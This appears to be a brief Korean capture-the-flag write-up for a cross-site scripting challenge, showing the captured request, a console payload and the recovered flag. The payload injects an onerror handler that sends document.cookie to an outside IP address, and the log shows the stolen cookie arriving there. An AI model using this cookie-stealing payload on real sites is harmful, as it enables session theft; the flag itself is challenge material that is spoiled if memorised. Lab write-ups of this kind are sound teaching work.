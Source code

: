 게시글 내용은 중요하지 않음

|

|

### 결과

```sh
GET /cookie=K0%7Bt0day_is_3v3nt_d4y%7D HTTP/1.1
Host: 20.41.120.97:10010
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/126.0.6478.126 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:10006/
Accept-Encoding: gzip, deflate

```

|

|

|

## Payload

### console

---

```jsx
document.getElementById('image').value = `"" onerror=location.href="http://20.41.120.97:10010/"+document.cookie>`
```

|

|

### FLAG

---

```bash
K0{t0day_is_3v3nt_d4y}
```

|

---
